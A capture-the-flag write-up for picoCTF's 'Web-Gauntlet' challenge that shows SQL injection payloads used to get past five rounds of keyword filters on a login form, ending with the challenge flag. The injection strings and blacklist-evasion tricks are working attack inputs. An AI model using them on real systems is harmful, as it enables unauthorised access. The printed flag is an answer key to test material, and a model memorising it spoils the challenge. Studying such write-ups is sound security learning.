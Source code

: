 # Web-Gauntlet
## Category
Web Exploitation
## Problem Description
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:41560/ http://jupiter.challenges.picoctf.org:41560/filter.php
## Approach
It is clear that the login form is meant to be bypassed using SQL injection.
### Round 1 - filter: or

I used basic injection and commented out the rest of the line.

input: ``` admin'-- ```

``` SELECT * FROM users WHERE username='admin'--' AND password='admin' ```

### Round 2 - filter: or and like = –

Without --, I checked for other ways to comment.

input: ``` admin'/* ```

``` SELECT * FROM users WHERE username='admin'/*' AND password='admin' ```

### Round 3 - filter: or and = like > < –

The first injection from the previous round still works here, but let’s try to get the second to work too.

input: ``` admin'/* ```

``` SELECT * FROM users WHERE username='admin'/*' AND password='admin' ```

### Round 4 - filter: or and = like > < – admin

In SQLITE, || is a concatenation operator. The simple solution is to simply split up “admin” in a way to bypass the filter.

input: ``` adm'||'in'/* ```

``` SELECT * FROM users WHERE username='adm'||'in'/* AND password='admin' ```

### Round 5 - filter: or and = like > < – union admin

Splitting up “admin” still works as only UNION is additionally blacklisted.

input: ``` adm'||'in'/* ```

``` SELECT * FROM users WHERE username='adm'||'in'/* AND password='admin' ```
## Flag
picoCTF{y0u_m4d3_1t_275cea1159781d5b3ef3f57e70be664a}
